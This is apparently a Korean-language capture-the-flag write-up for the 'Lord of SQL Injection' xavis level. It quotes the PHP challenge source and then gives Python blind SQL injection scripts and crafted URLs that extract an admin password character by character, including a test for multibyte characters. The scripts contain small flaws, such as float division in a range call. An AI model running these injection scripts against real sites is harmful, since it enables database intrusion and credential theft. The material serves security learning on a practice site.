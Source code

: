 # Lord of SQL Injection No.19 - xavis

## 문제 해결 방안

ASCII 코드가 아닌 코드로 되어있는 문자들로 이루어진 비밀번호를 Blind SQL Injection 할 수 있는지 확인한다.

## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```
* preg_match로 pw의 문자열에 'prob','_','.','()','regex','like'를 필터링 해낸다.

* 직접 GET 방식으로 받은 pw의 값과 데이터 베이스의 pw가 같은지를 검사하여 확인한다. 즉 Blind SQL Injection 임을 알 수 있다.

## 문제 해결방안
```python
import urllib.request   # python 라이브러리에 내장된 urllib.request 를 불러온다.
from urllib.parse import quote

result = "" # pw 값을 저장할 문자열 변수
length = 0;
for A in range(1,1000):
    url = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw="
    add_url = "' or length(pw)={} -- -".format(str(A))
    add_url = quote(add_url)
    new_url = url + add_url
    re = urllib.request.Request(new_url)

    re.add_header("User-Agent","Mozilla/5.0")
    re.add_header("Cookie","PHPSESSID=ae1i7c038nndgup1torche1pt7")

    res = urllib.request.urlopen(re)

    if str(res.read()).find("Hello admin") != -1:
        length = A
        print("Length = {}".format(str(A)))
        break
    # 위의 코드로 pw의 LENGTH가 40이라는 것을 알 수 있었다.
for i in range(1,length):
    for j in range(ord('0'),ord('z')):
        url = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw="  # SQL Injection 공격 대상인 URL에서 변경되지 않는 부분이다.
        add_url = "' or id='admin' and substr(pw,1,{})='{}' -- ;".format(str(i), result+chr(j))
        print("Searching.. - {0}{1}".format(url, add_url))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)

        re.add_header("User-Agent","Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=ae1i7c038nndgup1torche1pt7")

        res = urllib.request.urlopen(re)

        if str(res.read()).find("Hello admin") != -1:
            result += chr(j).lower()
            print("Found it!! => " + result)
            break

        # 이 코드로 pw가 나오지 않는다는것을 확인하였다.
print("Finished Searching.")
print("Password : " + result)
```
pw의 문자가 나오지 않음을 보아 범위 안에 있는 문자가 아니거나 ascii 코드가 아님을 예상해보았다.

따라서 'http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw=%27%20or%20id=%27admin%27%20and%20ascii(substr(pw,1,1))=0%20--%20-' 를 입력해보아 ascii 문자가 아닌지 확인해 보았는데 역시나 아니였다.

4바이트 문자방식인지 확인해보기 위하여 아래 url을 입력하여 입력해보았다.
'http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw=%27%20or%20id=%27admin%27%20and%20length(mid(pw,1,1))=4%20--%20-'
했더니 Hello admin이 출력되는 것을 보아 4바이트 유니코드임을 알았다.

따라서 위의 코드를 유니코드에 해당되는 코드로 수정 하였다.

```python
import urllib.request   # python 라이브러리에 내장된 urllib.request 를 불러온다.
from urllib.parse import quote

result = "" # pw 값을 저장할 문자열 변수
length = 0;
for A in range(1,1000):
    url = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw="
    add_url = "' or length(pw)={} -- -".format(str(A))
    add_url = quote(add_url)
    new_url = url + add_url
    re = urllib.request.Request(new_url)

    re.add_header("User-Agent","Mozilla/5.0")
    re.add_header("Cookie","PHPSESSID=ae1i7c038nndgup1torche1pt7")

    res = urllib.request.urlopen(re)

    if str(res.read()).find("Hello admin") != -1:
        length = A
        print("Length = {}".format(str(A)))
        break

for i in range(1,(length/4)):
    for j in range(128,256): # unicode에 해당하는 문자 코드를 확인하기 위해 돌린다.
        url = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw="  # SQL Injection 공격 대상인 URL에서 변경되지 않는 부분이다.
        add_url = "' or id='admin' and ord(substr(pw,{},1))='{}' -- ;".format(str(i), str(j)) # sql 에서 ord함수는 문자열에 해당하는 문자 코드를 반환
        print("Searching.. - {0}{1}".format(url, add_url))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)

        re.add_header("User-Agent","Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=ae1i7c038nndgup1torche1pt7")

        res = urllib.request.urlopen(re)

        if str(res.read()).find("Hello admin") != -1:
            result += chr(j).lower()
            print("Found it!! => " + result)
            break

print("Finished Searching.")
print("Password : " + result)
```
위의 코드를 실행해 보니 결과물로 ¸ùÅ°ÆÐÄ¡¤»가 출력되고 …?pw=¸ùÅ°ÆÐÄ¡¤»를 입력하면 문제가 해결되게 된다.